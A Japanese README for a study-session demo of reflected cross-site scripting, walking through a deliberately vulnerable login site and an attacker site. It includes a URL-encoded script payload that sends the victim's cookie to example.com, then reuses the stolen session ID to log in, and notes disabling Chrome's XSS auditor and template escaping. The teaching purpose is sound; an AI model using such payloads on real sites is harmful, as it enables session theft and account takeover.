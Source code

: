 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://当日教える.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://当日教える.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ google-chrome http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://当日教える.com/status?uid=%3Cscript%3Ewindow.location=%22http://example.com/?cookie=%22%2bdocument.cookie%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知してscript実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ google-chrome http://当日教える.com/login?sid=[セッションID]
```


## 付録

### 攻撃者サイトの準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/vulnerable-sites/ex00_WhatIsXSS
$ sqlite3 db/development.db < sql/sqlite.sql
$ carton install
$ carton exec perl -Ilib script/ex00_whatisxss-server --host=[IPアドレス] --port=[ポート番号]
```

### Amon2とGoogle Chromeを脆弱にするためにわざわざやったこと

最近のブラウザやらWebアプリフレームワークやらは脆弱性対策されてるんですね．
おい! 誰だPHPの話したの!! 関係ないだろ!!!!

<dl>
  <dt>ChromeのXSS検知&防止機構を無効にする</dt>
  <dd>起動オプションに --disable-xss-auditor をつけて，サーバからのレスポンスヘッダには<a href="/sample-sites/vulnerble-sites/ex00_WhatIsXSS/lib/Web.pm#L47">X-XSS-Protectionを0に指定</a></dd>

  <dt>XslateのHTMLエスケープを無効化</dt>
  <dd><a href="/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx#L10">mark_raw 指定をする</a></dd>
</dl>
